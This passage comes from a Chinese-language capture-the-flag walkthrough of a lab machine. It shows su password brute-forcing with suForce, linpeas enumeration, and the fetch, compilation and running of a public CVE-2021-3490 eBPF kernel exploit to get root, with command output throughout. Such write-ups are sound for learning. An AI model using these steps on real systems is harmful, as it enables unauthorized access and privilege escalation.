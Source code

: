 ```bash
www-data@tpN:/home/welcome$ ls -al
...
-rw-r--r-- 1 root    root    3510 Jul 22 09:56 .pwd
-rw-r--r-- 1 root    root      26 Jul 24 09:27 uesr.txt
```

将`suForce`上传到目标服务器，并使用`suForce`工具进行爆破。

```bash
www-data@tpN:/tmp$ ./suForce -u welcome -w pass
...
💥 Password | eecho
...
```

成功爆破出 `welcome` 用户的密码为 `eecho`。切换用户成功。

```bash
www-data@tpN:/tmp$ su welcome
Password: eecho
welcome@tpN:/tmp$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

## 2. 内核漏洞提权

切换到 `welcome` 用户后，执行 `sudo -l` 发现没有sudo权限。上传并运行 `linpeas.sh` 脚本进行提权漏洞扫描，发现系统内核可能存在 **CVE-2021-3490** 漏洞。

```bash
...
[+] [CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops
   Details: https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story
   Exposure: probable
...
```

下载并编译该漏洞的exploit。

```bash
welcome@tpN:/tmp$ busybox wget https://.../CVE-2021-3490/zip/main
welcome@tpN:/tmp$ unzip main 
welcome@tpN:/tmp/Linux_LPE_eBPF_CVE-2021-3490-main$ make
gcc -DGROOVY -o bin/exploit.bin -I include/ exploit.c bpf.c kmem_search.c
```

执行exploit，成功获取root权限。

```bash
welcome@tpN:/tmp/Linux_LPE_eBPF_CVE-2021-3490-main/bin$ ./exploit.bin 
...
[!] preparing to overwrite creds...
[+] success! enjoy r00t :)
# id
uid=0(root) gid=0(root) groups=0(root),1000(welcome)
```

# 五、夺取Flag

在root权限下，读取用户和root的flag。

```bash
root@tpN:/# cat /root/root.txt /home/welcome/uesr.txt 
flag{root-不错不错}
flag{user-eecho123456789}
```

渗透测试完成。